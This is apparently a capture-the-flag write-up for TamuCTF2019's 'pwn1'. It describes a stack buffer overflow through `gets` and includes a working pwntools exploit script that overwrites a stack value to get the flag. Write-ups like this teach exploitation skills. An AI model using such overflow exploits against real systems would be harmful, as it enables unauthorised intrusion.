


# pwn1

This is an easy pwn challenge from TamuCTF2019.

The challenge reproduces the bridge scene from Monty Python and the Holy grail. The user gets asked for their name, quest, and a secret.

Running `strings` on the Linux 32-bit binary gives the name and quest. Next, after the secret gets asked for, a check gets done against the integer 3735097544. Easy enough, but the user input doesn't get written to the same place as where the integer is looked for on the stack. A quick inspection of the code shows that `gets` is used to accept user input for the third question, and so it's a simple matter of overflowing the stack and writing the requisite integer to the correct location.

Here's the stack after I enter "AAAAAAAA\n". The desired integer should be at `$ebp-0x10`, according to the assembly language for the executable.



Looks like I need 43 bytes of junk, followed by the integer.

That gives me the flag! Easy problem.



Here is the exploit code:

```
# Solve pwn1.py

from pwn import *
from time import sleep

DELAY = 0.5

p = remote('pwn.tamuctf.com', 4321)

sleep(DELAY)
p.send("Sir Lancelot of Camelot\n")
sleep(DELAY)
p.send("To seek the Holy Grail.\n")
time.sleep(2)
p.send("A"*43 + p32(0xDEA110C8) + "\n")
p.interactive()
```
